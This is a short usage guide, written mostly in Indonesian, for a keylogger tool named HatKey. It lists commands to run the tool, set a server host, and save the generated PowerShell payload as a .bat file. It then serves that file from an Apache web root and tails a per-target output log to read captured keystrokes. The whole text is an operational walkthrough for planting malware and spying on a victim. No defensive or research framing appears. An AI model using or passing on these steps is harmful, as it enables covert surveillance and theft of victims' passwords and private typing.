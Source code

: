 # Key Logger
1. cd Hatkey/
2. chmod +x HatKey.py
3. python HatKey.py
4. show
5. set SHOST
6. run
7. selanjutnya copy file power shall yang sudah di running pada leave pad baru dan disimpan dengan format .bat
simpan pada :
computer > var > www > html
8. buka terminal baru
9. service apache2 start
10. buka terminal baru pada halaman Hatkey
11. cd Output /
12. ls
13. tail -f (ip.nama pc target) enter

